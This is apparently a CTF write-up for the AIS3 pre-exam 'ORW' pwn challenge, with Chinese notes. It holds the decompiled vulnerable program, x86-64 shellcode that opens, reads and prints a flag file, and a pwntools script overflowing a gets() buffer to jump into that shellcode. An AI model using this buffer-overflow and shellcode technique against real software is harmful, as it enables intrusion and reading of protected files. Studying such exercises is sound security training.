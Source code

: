 ### ORW
```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  puts("Give me your shellcode>");
  read(0, &unk_6010A0, 0x100uLL);
  puts("I give you bof, you know what to do :)");
  gets(&v4, &unk_6010A0);
  return 0LL;
}
```
- open read write 在/home/orw/底下的flag檔案 然後用最後給的bof蓋掉ret adr到我們寫的shellcode arr上面
- 構造ASM
    - file = open('/home/orw///flag', 0, 0)
    ```
    mov rax, 0x2
	push 0x0
	mov rbx, 0x67616c662f2f2f77
	push rbx
	mov rbx, 0x726f2f656d6f682f
	push rbx
	mov rdi, rsp
	xor rsi, rsi
	xor rdx, rdx
	syscall
    ```
    - read(file, shellcode-0x100, 40)
    ```
    mov rdi, rax
	mov rax, 0x0
	mov rsi, 0x006010A0
	add rsi, 0x100
	mov rdx, 0x40
	syscall
    ```
    - write(stdout, shellcode-0x100, 40)
    ```
    mov rax, 0x1
	mov rdi, 0x1
	mov rsi, 0x006010A0
	add rsi, 0x100
	mov rdx, 0x40
	syscall
    ```
- payload:
```
from pwn import *
conn = remote("pre-exam-pwn.ais3.org", "10001")
context.arch = 'amd64'
payload = asm(ASM)
conn.recvuntil('>')
conn.sendline(payload)
conn.recvuntil(":)\n")
payload = b"A" * 32 + p64(0x6010A0)
conn.sendline(payload)
conn.interactive()
```